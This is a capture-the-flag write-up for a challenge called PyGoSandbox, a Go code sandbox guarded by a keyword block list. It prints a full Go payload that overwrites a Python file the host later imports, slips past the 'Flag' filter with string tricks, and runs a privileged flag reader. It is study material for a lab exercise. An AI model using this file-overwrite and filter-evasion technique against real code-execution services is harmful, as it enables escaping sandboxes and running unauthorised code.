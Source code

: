 # CTF Writeup: PyGoSandbox

## Challenge Information

- **Challenge Name:** PyGoSandbox
- **CTF Event:** CATF 23
- **Category:** MISC

## Description

I'm back stronger than ever, after failing to build a secure calculator, i made a life changing career shift!, now i'm building top notch Golang sandboxes that no one with IQ lower than 0.567 can bypass. Can you?!

## Solution

### Initial Analysis

1- We take a look at the Dockerfile to know what we have to do, we will find that the real flag is in the `/root` dir and there is a fake flag as env variable and there is a `/FlagReader` which we have to execute to get the flag.

2- When we inspect the `encrypt.py` file we will find that it encrypts the fake flag. **intersting**

3- Lets inspect the `challenge.py` it blocks some words`BLOCKLIST = ["Scan","os","net","exec","syscall","cli","bufio","Flag","chatgpt"]` and sice it blocks the os word we can't do what we want directly so we have to find another indirect way

### Finding Clues

1- We can use the `io` package which can read and write files... but even if we can read we cant read the flag since we don't have the permission and even if we can write a file we can't execute it 

2- The challenge imports the `EncryptFlag` function from the encrypt.py file and executes it after our go code gets executed **The Ultra Major Clue**

### Exploitation

We can overwrite the `encrypt.py` with our python code and let the challenge it self exectute it so to craft our payload first thing we need is to write a python code to execute the `/FlagReader` inside a function called `EncryptFlag()` but we have a problem here which is we cant use the word `Flag` in our payload and to mitigate this problem we can use `flag` and then capitalize the `F` for the file name we can use the `replace()` function and for the function name we can use `globals()["Encryptflag".replace("f", "F")] = Encryptflag` so now we are done form the python code. The second thing we need is to write a go code to overwrite the `encrypt.py` and as we said eralier we can use `io/ioutil` to do that, so now we are ready to send our payload and get our flag

### payload

```
package main

import (
	"fmt"
	"io/ioutil"
)

func main() {
	// The file where to write data
	filePath := "encrypt.py"

	// The data you want to write to the file
	data := `
import subprocess
def Encryptflag():
	flag = "/flagReader"
	flag = flag.replace("f", "F")
	result = subprocess.check_output([flag], universal_newlines=True)
	print(result)
globals()["Encryptflag".replace("f", "F")] = Encryptflag
`

	// Write data to the file
	err := ioutil.WriteFile(filePath, []byte(data), 0644)
	if err != nil {
		fmt.Println("Error writing to file:", err)
		return
	}

	fmt.Println("Data written to the file successfully.")
}
EOF
```

**FLAG**
`CATF{GoL4ng_S4nDb0x_xB0x_1337_e477313264bb190024d654ef0a08fb1732af4f4b498a2e8ad__2@23_}`
